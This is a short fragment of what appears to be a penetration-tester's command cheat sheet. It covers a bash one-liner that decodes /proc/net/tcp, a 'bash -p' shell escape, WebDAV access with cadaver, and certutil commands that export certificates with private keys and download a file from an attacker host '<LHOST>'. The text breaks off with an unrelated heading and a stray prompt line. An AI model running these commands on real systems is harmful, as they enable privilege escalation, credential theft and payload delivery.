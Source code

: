```console
$ S=(- ESTABLISHED SYN_SENT SYN_RECV FIN_WAIT1 FIN_WAIT2 TIME_WAIT CLOSE CLOSE_WAIT LAST_ACK LISTEN CLOSING);hex2ipport(){ printf '%d.%d.%d.%d:%d\n' $(echo $1|awk -F: '{print $1}'|sed 's/../0x& /g'|awk '{print $4" "$3" "$2" "$1}') 0x$(echo $1|awk -F: '{print $2}');};cat /proc/net/tcp|tail -n +2|while read L;do echo $(hex2ipport $(echo $L|awk '{print $2}')) $(hex2ipport $(echo $L|awk '{print $3}')) ${S[$(( 0x$(echo $L|awk '{print $4}') ))]};done
```

## Bash POSIX

```console
$ sls -b '
> bash -p'
bash-4.3$
```

## cadaver

### Accessing WebDAV

```console
$ cadaver http://<RHOST>/webdav
```

## capsh

```console
$ capsh --print
```

## certutil

### Show Certificates

```cmd
PS C:\> certutil -store My
```

### Export Certificate

```cmd
PS C:\> certutil -exportPFX My 75b2f4bbd71f108945247b466161bdph <FILE>.pfx
```

### Copy Files

```cmd
PS C:\> certutil -urlcache -split -f "http://<LHOST>/<FILE>" <FILE>
```

## changelist

### BSD


[localhost]: PS C:\Users\<USERNAME>\Documents> whoami